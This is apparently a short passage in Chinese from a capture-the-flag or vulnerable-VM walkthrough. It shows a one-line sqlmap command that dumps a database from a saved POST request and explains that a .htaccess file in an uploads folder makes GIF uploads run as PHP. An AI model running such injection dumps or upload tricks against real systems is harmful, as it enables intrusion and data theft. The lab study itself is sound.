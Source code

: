 

# 拓展

## sqlmap可以一步到位

```bash
sqlmap -r sql_post.txt --batch --dump
```

![image-20231112202334539](./assets/image-20231112202334539.png)

## 上传gif，却可以执行php命令

```
为什么该文件上传允许gif解析php？？
cd /var/www/html/imfadministrator/uploads ---进入文件上传目录
ls -la  ---查看到存在.htaccess
cat查看信息：
AddType application/x-httpd-php .php .gif
AddHandler application/x-httpd-php .gif
可看到该文件与继续gif解析php文件！
```

![image-20231112222234899](./assets/image-20231112222234899.png)
